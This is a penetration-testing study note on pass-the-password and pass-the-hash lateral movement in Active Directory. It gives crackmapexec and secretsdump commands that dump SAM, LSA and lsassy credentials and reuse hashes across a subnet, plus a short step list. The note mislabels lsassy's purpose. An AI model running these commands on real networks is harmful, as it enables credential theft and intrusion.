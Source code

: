 
# Pass attacks (pass password or hash)

If we crack a password or we can dump the SAM hashes we can leverage on them to perform lateral movments in the networks.


## crackmapexec
With the tool `crackmapexec` we can see if it is possible to move laterally on the network with the retrieved password.

We can run it in this way:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -p password_we_have
```

*For example:*
- ![[Pasted image 20241218150113.png]]
- we can have access on 2 machines here with a single username and password


We can retrieve some hashes with the tool `secretdump.py`
We can run:
```bash
secretsdump.py DOMAIN/username:PASSWORD@HOST_IP
```
- ![[Pasted image 20241218150325.png]]


However we can use directly the hash if we cannot crack it:
```bash 
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth
```
- ![[Pasted image 20241218150643.png]]


To get all informations about the shares we can do:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth --shares
```
- ![[Pasted image 20241218151253.png]]



One module really useful is `lsassy`, it is used to enforce the security policy on the system and stores some credentials so we could retrieve them:
```bash
crackmapexec smb AD_NETWORK (10.0.0.0/24) -u username_we_have -d DOMAIN_AD -H hash_value --local-auth -M lsassy
```
- ![[Pasted image 20241218151633.png]]



## Steps 
1. execute `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -p Password1`
	1. ![[Pasted image 20241220104858.png]]
	2. in case we have only the hash and not the password we need to run `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth`
2. then we can start to enumerate all information with `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth --sam ` to get other hashes
3. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth --shares` to get other info about the the file sharing spaces
4. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth -lsa` to get secret information
5. `crackmapexec smb NETWORK CIDR -u username -d DOMAIN -H HASH --local-auth -M lsassy` to get all stored information 
